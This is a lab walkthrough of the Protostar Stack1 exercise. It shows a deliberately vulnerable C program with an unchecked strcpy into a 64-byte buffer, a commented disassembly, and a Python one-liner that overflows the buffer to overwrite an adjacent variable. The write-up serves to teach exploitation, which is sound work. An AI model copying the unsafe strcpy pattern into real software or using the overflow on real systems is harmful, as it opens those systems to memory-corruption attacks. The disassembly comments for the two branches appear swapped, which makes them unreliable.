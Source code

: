 # Protostar :: Stack1

Here is the code for this particular exercise.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Just like the last one, the solution to this exercise is fairly simple. Let's
disassemble the binary in gdb to get a better sense of it. I'll write comments
in the assembly code to make what's happening a bit more clear.
```bash
$ gdb stack1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60

# if (argc == 1)
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>

# errx(1, "please specify an argument\n");
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>

# modified = 0
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0

# strcpy(buffer, argv[1]);
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>

# if (modified == 0x61626364)
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>

# modified != 0x61626364
# printf("Try again, you got 0x%08x\n", modified);
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>

# modified == 0x61626364
# printf("you have correctly got the variable to the right value\n");
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>

0x080484d5 <main+113>:  leave  
0x080484d6 <main+114>:  ret    
End of assembler dump.
```

From the above disassembly we can see that the `modified` variable is located
at `$esp + 0x5c`, and the `buffer` variable is located at `$esp + 0x1c`, once
again the difference between these two is 64 bytes. So we need to write 64
bytes into the buffer, plus the value we want to write into the modified
variable, which is now `0x61626364`. But this being a little-endian OS, we
need to write it in reverse (`\x64\x63\x62\x61`).
```bash
./stack1 $(python -c 'print "A" * 64 + "\x64\x63\x62\x61"')
you have correctly got the variable to the right value
```
